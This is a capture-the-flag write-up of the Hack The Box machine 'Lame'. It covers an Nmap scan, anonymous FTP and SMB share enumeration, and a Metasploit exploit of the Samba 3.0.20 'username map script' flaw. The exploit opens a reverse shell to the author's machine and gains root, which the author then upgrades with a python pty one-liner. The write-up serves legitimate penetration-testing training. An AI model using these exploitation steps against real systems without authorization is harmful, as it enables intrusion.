 # Lame

Lame is a beginner level machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement. 

The first thing to do with an IP address is to run an Nmap scan.
```
nmap -sC -Pn -A 10.10.10.3
```
```
Nmap scan report for 10.10.10.3
Host is up (0.28s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h00m24s, deviation: 2h49m45s, median: 21s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-06-20T02:22:36-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.15 seconds
```
FTP, SSH, and Samba smdb are running on the machines.
I can connect to the FTP service using
```
ftp ftp://anonymous@10.10.10.3
```
Connecting with 'anonymous' doesn't require a password.
```
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp>
```
But I found nothing in there.
SSH will require a username and password or a public key to log in, but I don't have any.

Then comes the Samba service. 

Using `smbclient` to list the available shares on the target
```
─$ smbclient -L 10.10.10.3   
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME

```
I was able to connect to the tmp share, but nothing there.
Going through the Nmap scan, I see the Samba version (Samba 3.0.20-Debian).
I will use Metasploit to check if any exploit is available for this version

```
msf6 > search Samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```
Using `exploit/multi/samba/usermap_script` to exploit the service running.
Setting the LHOST and RHOST with my machine IP and target IP, respectively, and running the exploit.

```
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.16.41:4444 
[*] Command shell session 1 opened (10.10.16.41:4444 -> 10.10.10.3:59749) at 2024-06-20 02:35:46 -0400

whoami
root
which python
/usr/bin/python
```
But the shell is not stabilised. I will stabilise the shell with 
`python -c 'import pty;pty.spawn("/bin/bash")'`

`root@lame:/#`

Shell stabilisation is explained nicely here: https://maxat-akbanov.com/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal

Now that I have the shell access, I can find the flags using the `find` command.
